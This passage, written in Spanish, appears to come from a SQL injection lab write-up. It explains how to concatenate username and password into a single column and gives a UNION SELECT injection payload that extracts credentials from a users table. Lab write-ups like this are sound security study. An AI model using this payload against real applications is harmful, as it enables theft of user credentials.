 En este caso se debe concatenar los valores, ya que solo cuento con una única columna.

La sintaxis puede variar dependiendo del tipo de base de datos.

```sql
' union select NULL,concat(username,':',password) from users--
```

![](/assets/img/ps-writeup-sqli/ps-lab10_6.png)

![](/assets/img/ps-writeup-sqli/ps-lab10_7.png)
